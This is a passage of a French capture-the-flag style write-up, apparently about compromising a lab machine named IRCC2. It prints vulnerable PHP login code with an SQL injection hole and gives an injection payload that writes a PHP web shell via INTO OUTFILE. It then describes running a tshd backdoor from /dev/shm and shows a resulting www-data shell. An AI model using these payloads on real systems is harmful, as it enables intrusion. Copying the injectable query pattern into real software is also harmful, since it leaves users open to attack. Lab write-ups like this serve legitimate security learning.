 ```php
$page = basename($_GET['page']);
print(file_get_contents($page));
?>
<?php
if(isset($_POST['user']) && isset($_POST['password']))
{
        $user = $_POST['user'];
        $pass = $_POST['password'];

        $link = mysql_connect("localhost", "root", "some bad pass");
        mysql_select_db("user_db");
        $query = "SELECT * FROM users WHERE user='".$user."' AND pass='$pass'";
        $result = mysql_query($query) or die(mysql_error());
        if(mysql_num_rows($result) === 1)
        {
                print("YOU LOGGED IN!<br/>");
        }
        mysql_close($link);
```

J'aurais pu le récupérer grace au *file\_get\_contents* sans passer par la base de données ;-)  

L'exploitation est ici très limitée en raison du basename().  

Comment améliorer notre accès ? Les options *--os-shell* et *--os-cmd* de sqlmap n'aboutissent pas.  

J'ai essayé de trouver des fichiers accessibles en lecture qui auraient pu me donner une autre piste mais sans succès.  

Je suis donc revenu sur le SQL et en exploitant un *INTO OUTFILE* ça a fonctionné... Comme quoi il ne faut jamais faire trop confiance aux outils qu'on utilise.  

Pour cela j'ai simplement saisi comme nom d'utilisateur :  

```plain
' union select '<?php system($_GET["cmd"]); ?>', '' into outfile '/var/www/bd.php'#
```

En explorant les dossiers via la backdoor j'ai remarqué que sqlmap créait bien des fichiers mais ces derniers étaient vides...  

Je tente d'uploader un tshd dans le dossier courant (/var/www) et de lui donner des droits d'exécution mais l'opération ne passe pas, le changement de permission ne semble pas pris en compte sans pour autant lever d'erreur :(  

Idem pour /tmp. La commande mount n'a rien révélé de particulier... qu'importe /dev/shm m'a sauvé une fois de plus :)  

Le chat' bot-é
--------------

```bash
mabox:~$ ./tsh 192.168.1.53
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux IRCC2 2.6.32-5-686 #1 SMP Fri May 10 08:33:48 UTC 2013 i686 GNU/Linux
```
